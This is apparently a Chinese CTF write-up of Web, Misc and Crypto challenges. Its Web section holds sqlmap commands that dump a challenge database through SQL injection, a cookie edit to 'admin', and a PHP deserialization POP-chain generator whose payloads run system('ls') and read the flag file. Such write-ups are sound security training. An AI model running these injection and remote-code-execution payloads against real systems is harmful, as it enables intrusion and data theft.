## **Web**

### Signin2

输入"Signin"，查看响应头，发现 set-cookie 里有 flag。



### easy 简单的越权

进入网页给了 plaintext 响应：



查看 cookie：



将值改为 admin 再刷新网页即可。

### WEB3

提示访问 source，那就看看 source：



session_id 处有明显的 SQL 注入漏洞，使用 sqlmap 进行攻击：



看到 session_id 确实可以注入，我们继续：



得知 session_id 可以 UNION 注入攻击。使用漏洞查看数据库：

`python sqlmap.py -u http://29c01baa33a0d47f.node.nsctf.cn --method=POST --data="session_id=xxx" --current-db` 得知数据库名 `level1`

`python sqlmap.py -u http://29c01baa33a0d47f.node.nsctf.cn --method=POST --data="session_id=xxx" -D level1 --tables` 得知表名 `secrets`

进行 dump：`python sqlmap.py -u http://29c01baa33a0d47f.node.nsctf.cn --method=POST --data="session_id=xxx" -D level1 -T secrets --dump`



### pop

源码里出现了 include，用伪协议读一下 `index.php`：



base64 解码得到源码：

```php
<?php
class Tiger{
    public $string;
    protected $var;
    public function __toString(){
        return $this->string;
    }
    public function boss($value){
        @eval($value);
    }
    public function __invoke(){
        $this->boss($this->var);
    }
}

class Lion{
    public $tail;
    public function __construct(){
        $this->tail = array();
    }
    public function __get($value){
        $function = $this->tail;
        return $function();
    }
}


class Monkey{
    public $head;
    public $hand;
    public function __construct($here="Zoo"){
        $this->head = $here;
        echo "Welcome to ".$this->head."<br>";
    }
    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->head)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Elephant{
    public $nose;
    public $nice;
    public function __construct($nice="nice"){
        $this->nice = $nice;
        echo $nice;
    }
    public function __toString(){
        return $this->nice->nose;
    }
}

if(isset($_POST['zoo'])){
    @unserialize($_POST['zoo']);
}
else{
    $a = new Monkey;
    echo "hint in hint.php!";
}
?>
```

构造 pop 链生成器：

```php
<?php
class Tiger {
    public $string;
    // 注意最后是有一个分号的
    protected $var = "system('ls');";
}

class Lion {
    public $tail;
    public function __construct(){
        $this->tail = array();
    }
}

class Elephant {
    public $nose;
    public $nice;
    public function __construct($nice="nice") {
        $this->nice = $nice;
    }
}

class Monkey {
    public $head;
    public $hand;
    public function __construct($here="Zoo"){
        $this->head = $here;
    }
}

$a = new Elephant;
$a->nice = new Lion;
$a->nice->tail = new Tiger;

$b = new Monkey($a);

// 要 POST 所以要进行 URL 编码
// Content-Type: application/x-www-form-urlencoded
$c = urlencode(serialize($b));
echo $c;

?>
```

拿到 payload POST 到 `index.php`：



构造 payload `system('ls\$IFS/')`



最终构造 payload `system('cat\$IFS/f14g')`即可得到 flag。

## **Misc**

### txt

解压后得到的文件以 txt 模式打开即可得到 flag。

### 流量包

导入 wireshark，目测一下然后过滤域名 `www.wooyun.org`



打开 login 这条 POST 请求包，查看 form data：



password 即为 flag 里面的值。

### Search evidence



winrar 打开注释拉到最右边可以看到解压密码。

exe 运行不了，`file`命令看看文件格式：



然后查维基，尝试使用 DOSBox 运行程序。



程序卡住，原因未知。



直接查看二进制，发现了类似 flag 的东西，去掉异常字符后这就是最终 flag。



## **Crypto**

### Encode

解压文件是 0 和 1 的 txt 格式文件。长度正好为 25*8=200，每 8 个 bit 可以转化为 hex 对应一个 ASCII。



最后执行一次 join 即可得到 flag。

### 简单的密码

解压得到如下文件，猜测为莫斯密码，将 A 替换为 `.`，将 B 替换为 `-`，将空格替换为 `/`即可得到莫斯编码。



得到莫斯编码 `-.../----./-----/-----/-----/-.-./---../-----/--.../..---/....-/---../-.../....-/..-./--..././-.../-.../..---/--.../----./-..././....-/.-/.-/-..../-../..---/..---/-.-.`

解码：



根据题目提示 32 位小写字符串进行转换即可。



